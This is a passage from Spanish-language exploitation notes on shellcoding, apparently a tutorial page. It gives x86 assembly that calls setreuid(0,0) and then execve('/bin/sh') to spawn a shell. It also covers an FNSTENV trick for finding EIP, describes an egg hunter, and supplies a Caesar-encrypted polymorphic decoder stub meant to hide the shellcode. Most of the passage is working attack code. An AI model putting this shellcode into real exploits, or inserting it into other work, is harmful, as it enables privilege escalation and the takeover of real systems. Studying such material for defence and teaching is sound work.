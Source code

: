 ```text
.string             \”/bin/sh\”                               ; String a usar<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```

**EJ usando el Stack\(/bin/sh\):**  


```text
section .text
global _start
_start:
xor                  eax, eax                     ;Limpieza
mov                al, 0x46                      ; Syscall 70
xor                  ebx, ebx                     ; arg1 = 0
xor                  ecx, ecx                     ; arg2 = 0
int                    0x80                           ; setreuid(0,0)
xor                  eax, eax                     ; eax = 0
push   eax                             ; “\0”
push               dword 0x68732f2f ; “//sh”
push               dword 0x6e69622f; “/bin”
mov                ebx, esp                     ; arg1 = “/bin//sh\0”
push               eax                             ; Null -> args[1]
push               ebx                             ; “/bin/sh\0” -> args[0]
mov                ecx, esp                     ; arg2 = args[]
mov                al, 0x0b                      ; Syscall 11
int                    0x80                           ; excve(“/bin/sh”, args[“/bin/sh”, “NULL”], NULL)
```

**EJ FNSTENV:**

```text
fabs
fnstenv [esp-0x0c]
pop eax                     ; Guarda el EIP en el que se ejecutó fabs
…
```

**Egg Huter:**

Consiste en un pequeño código que recorre las páginas de memoria asociadas a un proceso en busca de la shellcode ahi guardada \(busca alguna firma puesta en la shellcode\). Útil en los casos en los que solo se tiene un pequeño espacio para inyectar código.

**Shellcodes polimórficos**

Consisten el shells cifradas que tienen un pequeño códigos que las descifran y saltan a él, usando el truco de Call-Pop este sería un **ejemplo cifrado cesar**:

```text
global _start
_start:
            jmp short magic
init:
            pop     esi
            xor      ecx, ecx
            mov    cl,0                              ; Hay que sustituir el 0 por la longitud del shellcode (es lo que recorrerá)
desc:
            sub     byte[esi + ecx -1], 0 ; Hay que sustituir el 0 por la cantidad de bytes a restar (cifrado cesar)
            sub     cl, 1
            jnz       desc
            jmp     short sc
magic:
            call init
sc:
            ;Aquí va el shellcode
```
